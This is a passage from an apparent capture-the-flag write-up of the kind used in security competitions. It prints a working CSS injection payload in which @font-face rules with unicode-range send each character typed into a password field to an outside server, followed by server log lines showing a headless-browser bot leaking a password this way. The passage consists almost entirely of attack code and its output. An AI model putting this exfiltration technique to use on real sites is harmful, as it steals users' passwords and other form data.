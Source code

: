 ```css
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?q); unicode-range:U+0071; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?r); unicode-range:U+0072; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?s); unicode-range:U+0073; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?t); unicode-range:U+0074; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?u); unicode-range:U+0075; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?v); unicode-range:U+0076; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?w); unicode-range:U+0077; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?x); unicode-range:U+0078; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?y); unicode-range:U+0079; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?z); unicode-range:U+007A; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?0); unicode-range:U+0030; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?1); unicode-range:U+0031; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?2); unicode-range:U+0032; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?3); unicode-range:U+0033; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?4); unicode-range:U+0034; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?5); unicode-range:U+0035; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?6); unicode-range:U+0036; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?7); unicode-range:U+0037; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?8); unicode-range:U+0038; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?9); unicode-range:U+0039; }

#password{ font-family:poc; }
```

After sending the link to the private chat through the feedback form, the following connections were present in my server's log:
```
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?C HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?h HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?r HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?i HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?s HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
```